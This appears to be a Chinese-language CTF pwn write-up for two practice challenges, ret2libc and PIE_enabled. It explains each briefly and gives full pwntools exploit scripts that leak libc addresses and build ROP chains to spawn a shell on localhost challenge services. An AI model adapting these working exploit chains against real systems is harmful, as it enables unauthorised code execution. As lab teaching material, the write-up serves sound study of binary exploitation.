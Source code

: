 ## ret2libc

应该是很标准很板子的一道libc的题，目的很简单，就是告诉大伙libc。

步骤极其常规，利用延迟绑定机制使用程序中已有的输出函数将真实地址泄露出来，拿到libc基址

计算出system地址和binsh字串地址，再次进行ROP即可，非常板子。

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 34315)
pwn = ELF(parent_path + "pwn")

pop_rdi = 0x40117e
puts_plt = pwn.plt['puts']
puts_got = pwn.got['puts']
main = pwn.symbols['main']
ret = 0x40101a

pad1 = b'a' * 0x58 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
sh.sendline(pad1)
sleep(3)
puts_addr = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

system_addr = puts_addr - 0x30170
binsh_addr = puts_addr + 0x1577c8
print(hex(puts_addr))
print(hex(system_addr))
print(hex(binsh_addr))

pad2 = b'a' * 0x58 + p64(ret) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

sh.sendline(pad2)
sh.interactive()
```

## PIE_enabled

此题目的是介绍pie保护，~~其实按理来说应该放在libc前面来着~~

直接给出函数地址，看ida就知道程序基址，搜一下字串有binsh，且有后门，说白也就是个多了保护的ret2text

```py
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 38777)

sh.recvuntil(b'0x')
vuln_addr = int(sh.recvuntil(b'\n').strip(), 16)
system_addr = vuln_addr - 0x6d
binsh_addr = vuln_addr + 0x2dcb
pop_rdi = vuln_addr + 0xde
pad = b'a' * 0x58 + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
sh.sendline(pad)
sh.interactive()
```

